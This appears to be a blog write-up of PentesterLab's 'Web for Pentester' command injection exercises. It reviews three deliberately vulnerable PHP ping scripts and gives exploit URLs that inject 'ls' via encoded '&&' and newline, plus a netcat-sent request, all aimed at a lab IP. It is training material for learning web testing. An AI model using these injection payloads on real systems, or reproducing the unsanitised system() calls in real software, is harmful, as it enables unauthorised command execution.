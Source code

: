 ```yaml
---
layout: post
title: "Pentestlab--Web for Pentester - Command Injection"
date: 2016-03-21 17:46:28 -0400
comments: true
categories: [pentesterlab, command injection, web pentest]
---
```

Web for Pentester: This exercise is a set of the most common web vulnerability

Difficluty: 1/5
<!--more-->

From Pentestlab,

`Command injection comes from a lack of filtering and encoding of information used as part of a command. The simplest example comes from using the function system (to run commands) and take an HTTP parameter as an argument of this command.`

`There are many ways to exploit a command injection:`

    `By redirecting the result of the first command into the second | id`
    `By running another command if the first one succeeds: && id (where & needs to be encoded)`
    `By running another command if the first one fails (and making sure it does: error || id ` just here to 


###Example 1

code review:

```php example1.php
<?php
  system("ping -c 2 ".$_GET['ip']);
?>

```

The vulnerability is due to the developer doesn't perform any input validation, so I can use && by add command after the normal input.

exploit:

`http://192.168.79.162/commandexec/example1.php?ip=127.0.0.1%26%26ls`


###Example 2

code review:

```php example2.php
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) {
     die("Invalid IP address");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
The developer added input filter. However, it cannot prevent new line character, so I can inject command 
`%0als`

exploit:

`http://192.168.79.162/commandexec/example2.php?ip=127.0.0.1%0als`



###Example 3

code review:

```php example3.php
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip']))) {
     header("Location: example3.php?ip=127.0.0.1");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
This example is really similar to the previous one; the only difference is that the developer does not stop the script correctly. In PHP, an easy and simple way to redirect users if one of the value provided doesn't match some security constraint is to call the function header. However, even if the browser will get redirected, this function does not stop the execution flow, and the script will still finish to run with the dangerous parameter. The developer needs to call the function die after the call to the function header, to avoid this issue.

exploit:

use `netcat`

`echo -e "GET /commandexec/example3.php?ip=127.0.0.1%26%26ls HTTP/1.1\r\nHost: 192.168.79.162\r\nConnection: close\r\n" | nc 192.168.79.162 80
`



